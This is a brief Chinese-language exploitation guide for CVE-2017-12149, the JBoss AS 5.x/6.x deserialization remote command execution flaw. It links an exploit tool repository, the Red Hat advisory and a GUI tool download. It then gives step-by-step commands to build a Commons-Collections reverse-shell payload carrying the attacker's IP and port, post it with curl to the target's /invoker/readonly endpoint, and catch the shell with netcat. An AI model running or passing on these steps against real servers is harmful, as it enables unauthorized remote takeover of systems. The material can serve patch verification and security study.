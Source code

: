 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具GUI[http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip](http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件

3: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

4: 再打开另外一个终端并且nc开始设置的反弹shell的IP
